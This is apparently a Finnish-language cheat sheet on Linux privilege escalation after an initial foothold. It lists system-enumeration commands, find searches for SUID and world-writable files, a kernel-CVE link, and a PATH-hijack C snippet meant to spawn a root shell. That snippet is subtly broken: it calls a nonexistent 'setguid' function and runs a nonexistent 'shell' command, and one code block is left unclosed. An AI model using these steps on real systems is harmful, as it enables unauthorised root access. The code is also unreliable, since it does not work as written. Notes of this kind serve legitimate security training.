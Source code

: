 ## Privilege Escalation

Käyttöoikeuksien nostaminen tapahtuu, kun ensimmäinen jalansija ja alhaisen tason käyttäjätunnus on saatu haltuun.
Tavoite on saada lisää oikeuksia ja päästä mahdollisesti liikkumaan kohdejärjetelmän osiin, joihin ensimmäisellä kaapatulla käyttäjätunnuksella ei välttämättä ole oikeuksia.
Ideaalitavoite on saada root- (Linux) tai Administrator- (Windows) tason oikeudet.

Käyttöoikeuksia voidaan nostaa monella tavalla, riippuen kohdejärjestelmästä.
Usein käyttöoikeuksien nostamisen mahdollistaa väärin konfiguroidut käyttöoikeudet tai haavoittuvat järjestelmän osat.

**Kohdejärjestelmän kartoitus**
```bash
hostname ## Voi löytyä tietoa järjestelmän käyttötarkoituksesta
uname -a ## Kernel -versio
cat /etc/issue ## Voi löytyä tietoa käyttöjärjestelmästä 
cat /proc/version ## Tietoa prosesseista, kernelistä, ja esim. onko compiler (esim. gcc) asennettu
ps ## Process Status, pyörivät prosessit. "ps -A" = kaikki, "ps axjf" = prosessipuu
env ## Ympäristömuuttujat, esim. PATH
sudo -l ## Kaikki komennot, jota käyttäjä voi ajaa sudona
ls -la ## Normaali ls ei näytä piilotettuja tiedostoja
id ## Käyttäjän tiedot ja ryhmä
ifconfig ## Verkkoliikennetietoja
netstat ## Muodostetut yhteydet, "netstat -a" = Kaikki, "netstat -l" = Yhteydettä odottavat. Voi lisätä t (TCP) tai u (UDP), esim. "netstat -at"
```
Find -komentoja (lisää loppuun 2>/dev/null, siistii virheviestit pois)
```bash
find / -name flag1.txt ## Etsi tiedosto flag1.txt
find / -type d -name config ## Etsi kansio config
find / -type f -perm 0777 ## Luku, kirjoitus, suorita -tiedostot kaikille käyttäjille
find / -perm a=x ##  Suoritettavat tiedostot
find / -perm -u=s -type f ## SUID -bittiset tiedostot 
```

**Kernel-haavoittuvuudet**
https://www.linuxkernelcves.com/cves

**Sudo-haavoittuvuudet**

**Compile haittaohjelma**
```bash
gcc tiedosto.c -o tiedosto -w
```

**PATH -haavoittuvuudet**
```bash
echo $PATH
```
```bash
find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u
Jos PATH-muuttujassa on kansio, johon käyttäjä pääsee kirjoittamaan, voidaan ko. kansiosta ajaa haittaohjelma root-oikeuksilla.

```c
#include<unistd.h>
void main()
{ setguid(0);
  setgid(0);
  system("shell");
}
```
